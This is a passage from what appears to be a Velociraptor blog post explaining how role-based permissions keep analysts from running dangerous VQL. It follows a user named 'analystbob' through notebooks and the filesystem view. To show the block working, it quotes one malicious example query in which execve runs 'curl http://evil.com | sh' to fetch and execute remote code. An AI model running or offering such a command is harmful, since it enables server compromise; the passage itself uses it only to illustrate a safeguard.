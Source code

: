 It is a perfectly valid post processing query and should be allowed, even inside the notebook, by any analyst.

However the query

```
 SELECT * FROM execve(argv=[“bash”, “-c”, “curl http://evil.com | sh”])
```

Is clearly a malicious query and should be blocked from the notebook (It can result in server compromise).

Velociraptor solves this by introducing a permission system. Each VQL plugin requires the caller to possess a particular permission. For example, the execve() plugin required the EXECVE permission (i.e. being allowed to run arbitrary shell commands). If the user does not have the permission, the plugin fails with an error.

Let’s look at this example more closely. I will create a user called “analystbob” and assign them the **analyst** role:

![](../../img/1KzOsl3TZ2oztzDQF-c4APw.png)

Bob is allowed to view and edit notebooks using the GUI since Bob is an analyst. Let’s see Bob creating a new notebook

![](../../img/1Dri1UPuqRLnhmadSP5f-jQ.png)

Bob can even issue VQL queries for post processing and filtering of collected data. However, what happens if they try to issue the malicious VQL above within a VQL notebook cell?

![](../../img/1qOUD4kX7OGj9rlrM84y21A.png)

![](../../img/1AkJUHE0jH9m5ckmwxkG2aQ.png)

Bob’s query returned no rows since the execve() plugin refused to run without the EXECVE permission, which Bob lacks.

Let’s see Bob browsing the Virtual Filesystem of an endpoint

![](../../img/1QkdlX3Ubyb_eQhvDLnko5Q.png)

The rest of the GUI does not allow Bob to actually collect any new data — for example the VFS view does not allow collecting new directory listing or new files (but Bob can still navigate already collected directories).

If Bob wants to collect new artifacts or perform new hunts, he will need to ask **investigatoralice** who has the **investigator** role to actually collect those. Similarly, if Bob wants to modify or implement a new artifact they will need to ask the user **sue** who has the **artifact_writer** role to be able to add the artifacts for him (Once the artifact is added, Alice can now collect it — she just can’t add it herself).

### Artifact permissions

Some artifacts are more sensitive than others. For example, the **Windows.System.CmdShell** artifact implements the interactive shell feature. It allows arbitrary commands to be executed by the command shell on the endpoint — a very powerful artifact indeed.
